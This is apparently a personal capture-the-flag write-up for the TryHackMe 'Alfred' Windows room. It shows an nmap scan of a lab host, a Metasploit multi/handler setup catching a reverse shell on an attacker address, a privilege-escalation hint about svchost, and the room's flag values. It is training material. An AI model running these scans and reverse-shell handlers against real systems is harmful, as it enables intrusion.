








---
name:
  - Alfred
Date: 19 April 2024
Platform: windows
Category: paid
Difficulty: easy
tags:
  - THM
Status: inprocess
IP:
---

## Improved skills
- privilege escalation
- network scanning
- token impersination
- bruteforce

## Used tools
1. NMAP
2. Hydra
3. Netcat
4. OSINT
5. Metasploit
6. Msfvenom
7. Windows command line & Powershell

---
```bash
┌──(kali㉿kali)-[~/30-days/Day_6]
└─$ sudo nmap -sV -A -T4 -Pn 10.10.153.195
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-19 09:18 EDT
Stats: 0:01:01 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.53% done; ETC: 09:19 (0:00:00 remaining)
Nmap scan report for 10.10.153.195
Host is up (0.23s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 7.5
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
3389/tcp open  tcpwrapped
| ssl-cert: Subject: commonName=alfred
| Not valid before: 2024-04-18T13:18:28
|_Not valid after:  2024-10-18T13:18:28
| rdp-ntlm-info: 
|   Target_Name: ALFRED
|   NetBIOS_Domain_Name: ALFRED
|   NetBIOS_Computer_Name: ALFRED
|   DNS_Domain_Name: alfred
|   DNS_Computer_Name: alfred
|   Product_Version: 6.1.7601
|_  System_Time: 2024-04-19T13:20:01+00:00
|_ssl-date: 2024-04-19T13:20:15+00:00; +23s from scanner time.
8080/tcp open  http       Jetty 9.4.z-SNAPSHOT
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|8.1|Phone (90%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_7::sp1 cpe:/o:microsoft:windows_8.1:r1 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2008 R2 SP1 (90%), Microsoft Windows Server 2008 (87%), Microsoft Windows Server 2008 R2 (87%), Microsoft Windows Server 2008 R2 or Windows 8 (87%), Microsoft Windows 7 SP1 (87%), Microsoft Windows 8.1 Update 1 (87%), Microsoft Windows 8.1 R1 (87%), Microsoft Windows Phone 7.5 or 8.0 (87%), Microsoft Windows Embedded Standard 7 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 22s, deviation: 0s, median: 22s

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   228.66 ms 10.8.0.1
2   228.79 ms 10.10.153.195

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.05 seconds

```





#### Privilege Escalation




Launch msfconsole and navigate to the handler. I prefer running the `msfconsole` command over running `msfdb run` because it lets you background shells without issues. For faster MSF results be sure to start the postgresql database first.
```
msfconsole
use exploit/multi/handler
set LHOST 10.8.45.125
set LPORT 1111
run
```


Run `ps` and look for the PID of the svchost.exe process.





# Trophy & Loot
user.txt
```
79007a09481963edf2e1321abd9ae2a0
```

root.txt
```
dff0f748678f280250f25a45b8046b4a
```